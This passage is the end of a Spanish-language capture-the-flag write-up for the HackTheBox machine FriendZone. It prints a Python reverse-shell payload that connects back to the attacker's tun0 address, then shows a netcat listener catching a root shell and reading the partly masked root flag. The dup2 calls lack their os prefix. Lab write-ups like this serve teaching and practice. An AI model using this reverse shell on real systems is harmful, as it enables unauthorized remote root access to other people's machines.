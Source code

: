 Cambio la IP a mi IP de la tun0 y cierro con **s.close()**:

```sh
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.23",443))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
s.close()
``` 

Me pongo en escucha.

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.123] 41554
root@FriendZone:~# whoami
whoami
root
root@FriendZone:~# cat /root/root.txt
cat /root/root.txt
6156e79cb9872125a0814******
```

Máquina muy chula. Se aprenden y repasan cosicas, y sobretodo prácticamos, importante para coger soltura.
